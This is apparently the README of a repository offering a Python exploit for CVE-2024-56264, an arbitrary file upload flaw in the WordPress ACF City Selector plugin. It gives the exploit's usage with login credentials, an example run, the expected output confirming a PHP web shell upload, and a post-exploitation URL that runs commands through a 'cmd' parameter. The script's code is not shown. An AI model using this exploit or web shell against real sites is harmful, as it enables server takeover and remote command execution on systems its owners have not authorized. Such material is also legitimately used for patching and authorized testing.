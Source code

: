 # CVE-2024-56264

## WordPress ACF City Selector - Arbitrary File Upload Exploit (CVE-2024-56264)

### Overview
This repository contains an exploit for **CVE-2024-56264**, which is an **Arbitrary File Upload** vulnerability found in the WordPress **ACF City Selector** plugin (versions **<= 1.14.0**). This vulnerability allows an attacker to upload a **malicious PHP file (web shell)** to a vulnerable WordPress instance and execute arbitrary commands on the server.

### CVE Details
- **CVE ID:** CVE-2024-56264
- **Published Date:** January 2, 2025
- **Affected Plugin:** ACF City Selector
- **Vulnerable Versions:** `<= 1.14.0`
- **Impact:** Remote Code Execution (RCE) via unrestricted file upload

### Description
The ACF City Selector plugin fails to properly validate uploaded files, allowing attackers to **bypass restrictions** and upload **arbitrary PHP files**. Once a malicious PHP file is uploaded, an attacker can execute system commands remotely, leading to **full server compromise**.



## Requirements

### 📌 Dependencies
Ensure the following are installed before running the script:

- **Python 3.x**
- `requests` module (Install using: `pip install requests`)

You can install all required dependencies using:
```sh
pip install -r requirements.txt
```

## 🚀 Usage
Running the exploit:

```
usage: CVE-2024-56264.py [-h] --url URL --username USERNAME --password PASSWORD

WordPress ACF City Selector plugin <= 1.14.0 - Arbitrary File Upload vulnerability

options:
  -h, --help           show this help message and exit
  --url URL            Website base URL (e.g., http://192.168.100.74/wordpress)
  --username USERNAME  WordPress username
  --password PASSWORD  WordPress password

```
### Example:
```
python CVE-2024-56264.py --url http://192.168.100.74:888/wordpress --username admin --password admin
```
## Expected Output
Upon successful exploitation, you should see:
```
[+] Detected plugin version: 1.14.0
[+] Vulnerable version detected! Proceeding with exploitation.
[+] Logged in successfully.
[+] Extracted nonce: abc1234
[+] Shell uploaded successfully: http://wordpress/wp-content/uploads/acfcs/q.php
```


### Post-Exploitation
If successful, access the uploaded shell via:
```
http://wordpress/wp-content/uploads/acfcs/q.php?cmd=whoami
```
This allows remote command execution on the server.

## ⚠ Disclaimer
This script is intended **only for educational and authorized security testing purposes**. **Unauthorized use is illegal** and may result in severe consequences. The author is **not responsible** for any misuse of this exploit.

